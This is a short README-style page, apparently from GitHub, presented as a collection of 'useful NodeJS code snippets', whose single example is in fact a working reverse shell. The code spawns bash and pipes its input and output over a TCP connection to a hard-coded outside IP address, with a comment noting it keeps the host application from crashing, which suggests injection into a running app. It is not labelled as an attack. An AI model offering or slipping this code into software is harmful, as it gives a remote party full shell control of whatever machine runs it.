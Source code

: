 ## Collection of useful NodeJS code snippets.
Example:
```nodejs
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/usr/bin/bash", []);
    var client = new net.Socket();
    client.connect(8080, "35.173.246.103", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

`PS: Code snippets will be added soon.`
